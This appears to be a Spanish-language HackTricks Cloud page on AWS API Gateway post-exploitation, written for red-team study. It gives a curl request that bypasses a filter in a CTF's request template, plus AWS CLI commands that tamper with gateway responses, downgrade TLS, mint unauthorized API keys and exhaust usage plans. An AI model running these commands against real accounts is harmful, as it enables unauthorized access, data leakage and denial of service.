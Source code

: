 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## API Gateway

Para más información revisa:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acceder a APIs no expuestas

Puedes crear un endpoint en [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con el servicio `com.amazonaws.us-east-1.execute-api`, exponer el endpoint en una red donde tengas acceso (potencialmente a través de una máquina EC2) y asignar un grupo de seguridad que permita todas las conexiones.\
Luego, desde la máquina EC2 podrás acceder al endpoint y, por lo tanto, llamar a la API del gateway que no estaba expuesta antes.

### Bypass Request body passthrough

Esta técnica fue encontrada en [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Como se indica en la [**documentación de AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) en la sección `PassthroughBehavior`, por defecto, el valor **`WHEN_NO_MATCH`**, al verificar el encabezado **Content-Type** de la solicitud, pasará la solicitud al back end sin transformación.

Por lo tanto, en el CTF el API Gateway tenía una plantilla de integración que **impedía que la bandera fuera exfiltrada** en una respuesta cuando se enviaba una solicitud con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Sin embargo, enviar una solicitud con **`Content-type: text/json`** evitaría ese filtro.&#x20;

Finalmente, como el API Gateway solo permitía `Get` y `Options`, fue posible enviar una consulta arbitraria a dynamoDB sin ningún límite enviando una solicitud POST con la consulta en el cuerpo y usando el encabezado `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

En la sección de **Enumeración** puedes ver cómo **obtener el plan de uso** de las claves. Si tienes la clave y está **limitada** a X usos **por mes**, podrías **simplemente usarla y causar un DoS**.

La **API Key** solo necesita ser **incluida** dentro de un **HTTP header** llamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateGatewayResponse` y `apigateway:CreateDeployment` puede **modificar una Respuesta de Gateway existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Fuga de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateStage` y `apigateway:CreateDeployment` puede **modificar una etapa existente de API Gateway para redirigir el tráfico a una etapa diferente o cambiar la configuración de caché para obtener acceso no autorizado a datos en caché**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acceso no autorizado a datos en caché, interrumpiendo o interceptando el tráfico de la API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:PutMethodResponse` y `apigateway:CreateDeployment` puede **modificar la respuesta del método de un método REST API Gateway existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Fuga de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateRestApi` y `apigateway:CreateDeployment` puede **modificar la configuración de API Gateway REST API para deshabilitar el registro o cambiar la versión mínima de TLS, potencialmente debilitando la seguridad de la API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Debilitar la seguridad del API, permitiendo potencialmente el acceso no autorizado o exponiendo información sensible.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un atacante con permisos `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, y `apigateway:CreateUsagePlanKey` puede **crear nuevas claves de API, asociarlas con planes de uso, y luego usar estas claves para acceder a APIs sin autorización**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acceso no autorizado a recursos de API, eludiendo controles de seguridad.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

<details>

<summary><strong>Aprende hacking de AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
